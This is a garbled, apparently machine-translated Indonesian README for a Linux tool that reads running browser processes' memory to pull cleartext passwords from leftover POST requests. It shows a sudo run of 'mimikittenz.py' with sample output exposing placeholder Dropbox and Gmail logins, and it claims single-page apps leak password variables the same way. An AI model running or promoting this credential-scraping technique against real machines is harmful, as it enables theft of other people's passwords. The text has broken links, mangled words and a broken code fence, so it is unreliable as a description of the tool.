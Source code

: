 # pemulungonline
Banyak browser web tetap ada permintaan POST cleartext dalam memori jauh setelah permintaan dibuat. Ini dapat disalahgunakan untuk mencuri kata sandi cleartext dari memori setelah permintaan masuk.

Proyek [( https://github.com/ ) menunjukkan ekstraksi kata sandi dari memori yang sedang berjalan di sistem Windows. Alat ini melakukan hal yang sama untuk sistem Linux. Regex yang dipilih langsung dari proyek-proyekproyek-proyekpute

#

`` `
sudo mimikittenz.py
Ditemukan chrome running, scanning ....
PID = 19789
PID = 19800
PID = 19801
PID = 19804
PID = 19853
PID = 19908
PID = 20329
PID = 21041
Ditemukan layanan Dropbox: ['login_email = somedudesemail% 40gmail.com & login_password = thisisasecretpassword & remember_me = Benar &', 'login_email = somedudesemail% 40gmail.com & login_password = thisisasecretpassword & remember_me = Benar &', 'login_email = somedudesemail% 40gmail.com & login_password = thisisasecretpassword & remember_me = Benar &']
Ditemukan kromium berjalan, memindai ....
PID = 17497
PID = 17531
PID = 18653
PID = 20757
PID = 27493
PID = 27502
PID = 27504
PID = 27565
PID = 27655
PID = 27683
Layanan Gmail yang ditemukan: [& Email = somedudesemail & Passwd = someOTHERsecretpassword & PersistentCookie = ']
Menjalankan firefox, memindai ....
PID = 3810
PID = 3872
`` `

##  Pertimbangan ekstra

Meskipun alat ini digunakan untuk mengekstrak parameter permintaan dari permintaan POST, karena Aplikasi Halaman Tunggal menjadi lebih populer, tetap variabel kata sandi akan tetap ada, karena pengembang tidak memodifikasinya. Layanan ini akan dapat dieksploitasi menggunakan metode simaliar ke metode yang menggunakan alatini
# Jangan pakai alat saya, gunakan yang ini
